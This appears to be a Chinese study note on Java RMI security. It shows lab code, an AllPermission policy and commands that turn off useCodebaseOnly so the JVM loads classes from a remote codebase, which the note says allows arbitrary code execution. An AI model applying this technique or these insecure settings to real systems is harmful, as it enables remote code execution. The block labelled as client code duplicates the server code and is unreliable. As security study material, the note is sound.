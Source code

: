 ```yaml
---
created: '21/09/13'
title: RMI篇2
tags:
  - java
  - java安全
  - 反序列化 
---
```

# RMI篇2
RMI虽然分成三个部分，但是通常我们在新建RMI Registry的时候对会直接绑定一个对象在上面，也就是说同时承担了Server和Registry的角色。

那么RMI会给我们带来什么安全问题呢？
1. 如果我们能访问RMI Registry服务，如何对其攻击？
2. 如果我们控制了目标RMI客户端中的RMI Registry的地址，能不能进行攻击？

## 如何攻击RMI Registry
RMI Registry是管理远程对象的地方，可以理解为一个后台，但是我们无法直接通过客户端调用"后台"的接口，例如:
```java
RemoteHelloWorld h = new RemoteHelloWorld(); Naming.rebind("rmi://192.168.135.142:1099/Hello", h);
```
也就是说客户端无法调用`rebind`、 `bind`、`unbind`等方法，不只可以使用`list`和`lookup`方法

## RMI利用codebase执行任意代码
RMI中涉及到一个东西: codebase
CLASSPATH，但CLASSPATH是本地路径，而codebase通常是远程URL，比如http、ftp等。 如果我们指定codebase=`http://example.com/`，然后加载org.vulhub.example.Example类，则 Java虚拟机会下载这个文件`http://example.com/org/vulhub/example/Example.class`，并作为 Example类的字节码。

所以如果我们能控制codebase，就可以加载恶意类了，但是这存在限制的:
- 安装并配置了SecurityManager
- Java版本低于7u21、6u45，或者设置了java.rmi.server.useCodebaseOnly=false，在此配置为true时，jvm只信任预先配置好的codebase，我们也就无法利用了

## 攻击代理示例
先创建四个文件:
- Calc.java
- ICalc.java
- RMIServer.java
- client.policy

目录结构和代码如下:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20210913155401.png)

```java
package top.longlone.attackRMI;

import java.rmi.Remote;
import java.rmi.RemoteException;
import java.util.List;

public interface ICalc extends Remote {
    public Integer sum(List<Integer> numbers) throws RemoteException;
}
```

```java
package top.longlone.attackRMI;  
  
import top.longlone.attackRMI.ICalc;  
  
import java.rmi.RemoteException;  
import java.rmi.server.UnicastRemoteObject;  
import java.util.List;  
  
public class Calc extends UnicastRemoteObject implements ICalc {  
 protected Calc() throws RemoteException {  
 }  
 @Override  
 public Integer sum(List<Integer> numbers) throws RemoteException {  
 Integer sum = 0;  
 for (Integer number : numbers) {  
 sum += number;  
 }  
 return sum;  
 }  
}
```

```java
package top.longlone.attackRMI;  
  
import java.rmi.Naming;  
import java.rmi.registry.LocateRegistry;  
  
public class RMIServer {  
 private void start() throws Exception {  
 System.out.println("setup SecurityManager");  
 System.setSecurityManager(new SecurityManager());  
  
 Calc h = new Calc();  
 LocateRegistry.createRegistry(1099);  
 Naming.rebind("rmi://192.168.123.150:1099/Calc", h);  
 }  
  
 public static void main(String[] args) throws Exception {  
 new RMIServer().start();  
 }  
}
```

```
grant {  
permission java.security.AllPermission;  
};
```

然后执行`javac *.java*`对java代码进行编译

再编写RMIClient.java

```java
package top.longlone.attackRMI;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class RMIServer {
    private void start() throws Exception {
        System.out.println("setup SecurityManager");
        System.setSecurityManager(new SecurityManager());

        Calc h = new Calc();
        LocateRegistry.createRegistry(1099);
        Naming.rebind("rmi://192.168.123.150:1099/Calc", h);
    }

    public static void main(String[] args) throws Exception {
        new RMIServer().start();
    }
}
```

同样需要将RMIClient编译，这里有个特别注意的点是:**这个Client我们需要在另一个位置运行，因为我们需要让RMI Server在本地CLASSPATH里找不到类，才会去加载codebase中的类，所以不能将RMIClient.java放在RMI Server所在的目录中。**

这时我们再执行命令起一个服务器来测试Client是否去我们指定的恶意地址远程请求类，可以使用python或者php简单起个服务器即可

运行Server和Client:
`D:\Coding\java\maven_study\target\classes>java -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.codebase=http://127.0.0.1:7777/ top.longlone.RMIClient`

`D:\Coding\java\maven_study\src\main\java>java -Djava.rmi.server.hostname=192.168.123.150 -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=top/longlone/attackRMI/client.policy top.longlone.attackRMI.RMIServer`

可以看见确实请求了`/top/longlone/RMIClient$1.class`，那么我们只要在远程去部署一个恶意的class文件就能让他执行任意代码了
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20210913160901.png)


这里和pdf有些不一样的地方: pdf里抛出了一个magic value不正确的错误，但我这里抛出了一个ClassNotFound错误
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20210913161020.png)